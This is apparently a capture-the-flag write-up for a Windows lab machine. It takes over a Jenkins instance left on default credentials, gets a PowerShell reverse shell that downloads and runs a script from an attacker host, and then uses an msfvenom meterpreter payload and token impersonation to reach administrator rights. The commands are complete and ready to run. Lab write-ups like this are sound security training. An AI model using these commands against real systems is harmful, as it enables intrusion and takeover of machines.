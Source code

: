 IP: 10.10.61.138
3 ports open:
 - 80 http IIS 7.5
 - 3389 sql server
 - 8080 http Jetty 9.4.z-snapshot

Jetty has a robots.txt entry
which is just /
the webpage is a login for jenkins with deafult creds of admin:admin

when logged in you can write code as a batch command under project/configure
a reverse shell with powershell
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.57.102:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IP 10.4.57.102 -Port 9001
```
1. Set up python webserver to host payload
2. Set up netcat listener to catch the shell.

when on the box run whoami to find user then navigate to their desktop for the user flag.


meterpreter time
create a windows meterpreter reverse shell using msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.57.102 LPORT=9001 -f exe -o shell.exe
```
1. make payload in msfvenom
```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.4.57.102:8000/shell.exe','shell.exe')"
```
2. start a handler in metasploit.
```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.4.57.102 set LPORT 9001 run
```
3. run from within the powershell session with Start-Process "shell.exe"

to priv esc.
1. load incognito
2. list_tokens -g
3. impersonate_token "BUILTIN\Administrator"
To have the permissions of the new account migrate the process to services.exe

Spawn a shell and locate the root.txt file.
